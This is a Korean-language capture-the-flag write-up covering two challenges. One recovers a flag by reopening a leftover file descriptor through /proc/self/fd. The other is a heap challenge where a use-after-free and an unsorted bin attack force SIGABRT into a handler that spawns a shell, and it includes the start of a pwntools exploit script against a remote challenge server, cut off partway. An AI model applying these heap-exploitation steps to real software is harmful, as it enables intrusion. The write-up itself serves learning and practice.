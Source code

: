 Open에서 우선 파일을 연 다음 필터링을 거치기 때문에 파일 디스크립터에는 플래그가 남아있다.

1. Open(flag)
2. Open(/proc/self/fd/3)
3. Read()
4. Write()



__플래그 : flag{s0lve_reader_/proc/self/fd}__



### attack (400)

```c
signal(6, (__sighandler_t)handler);
```

```c
void __noreturn handler()
{
  puts("Time out!");
  puts("But... You can get shell XD");
  system("/bin/sh");
  exit(1);
}
```

signal 6(SIGABRT)이 뜨면 쉘이 따진다. 

```c
if ( SHIDWORD(qword_6020E0[2 * i + 1]) > 300 || SHIDWORD(qword_6020E0[2 * i + 1]) <= 199 )
  {
    puts("Over size");
    exit(-1);
  }
```

malloc을 199 초과 300 이하로 할 수 있으므로 smallbin만 할당할 수 있음을 알 수 있다.

우선 취약점은 chunk가 free 상태인지 확인하지 않고 edit 및 view가 가능하다는 점인데,

아직 부족한 실력으로 생각나는게 unsorted bin attack 밖에 없어서 특정 변수에 main_arena+88의 값을 덮는 것이 공격 루트라고 생각했고, 이를 어떻게 이용하면 signal 6을 띄울 수 있을지 생각해봤다.



결국 생각한 방법은 main_arena+88를 leak할 수 있으므로 unsorted bin attack으로 main_arena+88에 

main_arena+88을 덮으면 top chunk를 가르키는 포인터가 이상해져 malloc corruption이 일어나는 루트였다.

malloc을 smallbin 크기로 2개 정도 해주고 (병합 방지), 하나를 free 한 뒤 view로 main_arena+88을 leak하고

edit으로 bk를 main_arena+88 - 0x10으로 바꾸어서 공격이 가능했다.



exp.py

```python
rom pwn import *

p = remote('c2w2m2.com', 1999)

def alloc(data):
	p.recvuntil(':> ')
	p.sendline('1')
	p.recvuntil(':> ')
	p.sendline('256')
	p.recvuntil(':> ')
	p.sendline(data)

def free(idx):
	p.recvuntil(':> ')
```